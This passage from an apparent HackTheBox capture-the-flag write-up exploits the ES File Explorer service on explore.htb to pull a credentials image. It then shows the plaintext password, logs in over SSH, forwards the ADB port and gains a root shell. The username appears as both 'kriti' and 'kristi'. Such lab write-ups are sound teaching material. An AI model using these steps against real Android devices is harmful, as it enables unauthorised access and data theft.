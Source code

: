 After searching for interesting files, I found an image with the credentials of the user `kriti` located in the `/storage/emulated/0/DCIM/creds.jpg` folder.
```bash
curl --header "Content-Type: application/json" --request POST --data '{"command":"listPics"}' http://explore.htb:59777
```

<a href="/assets/images/htb-machine-pilgrimage/htb-machine-pilgrimage_003.png"><img src="/assets/images/htb-machine-pilgrimage/htb-machine-pilgrimage_003.png"></a>

To get `creds.jpg` use this command:
```txt
python exploit_ESFileExplorer.py --get-file /storage/emulated/0/DCIM/creds.jpg --host explore.htb
```

<a href="/assets/images/htb-machine-pilgrimage/htb-machine-pilgrimage_004.png"><img src="/assets/images/htb-machine-pilgrimage/htb-machine-pilgrimage_004.png"></a>

<a href="/assets/images/htb-machine-pilgrimage/htb-machine-pilgrimage_005.png"><img src="/assets/images/htb-machine-pilgrimage/htb-machine-pilgrimage_005.png"></a>

Credentials
```txt
kristi:Kr1sT!5h@Rp3xPl0r3!
```

# Gain Access
SSH service is running on port `2222`, connect with the credentials and show `user.txt` flag
```bash
ssh -p 2222 kristi@explore.htb
cat /sdcard/user.txt
```

<a href="/assets/images/htb-machine-pilgrimage/htb-machine-pilgrimage_user.png"><img src="/assets/images/htb-machine-pilgrimage/htb-machine-pilgrimage_user.png"></a>

# Privilege Escalation
Checking the network connections, we observe that port `5555` is listening, this port is used by default by `ADB` (Android Debug Bridge).
```bash
netstat -nlpt
```

<a href="/assets/images/htb-machine-pilgrimage/htb-machine-pilgrimage_006.png"><img src="/assets/images/htb-machine-pilgrimage/htb-machine-pilgrimage_006.png"></a>

So lets try to port **forward** it through ssh and try to connect it through our box
```bash
ssh -p 2222 kristi@explore.htb -L 5555:localhost:5555
```

Use `adb` to get root access, find flag and show.
```bash
adb -s localhost:5555 root
```
```bash
adb -s localhost:5555 shell
```
```bash
find / -name "root.txt" 2>/dev/null
```
```bash
cat /data/root.txt
```
<a href="/assets/images/htb-machine-pilgrimage/htb-machine-pilgrimage_root.png"><img src="/assets/images/htb-machine-pilgrimage/htb-machine-pilgrimage_root.png"></a>
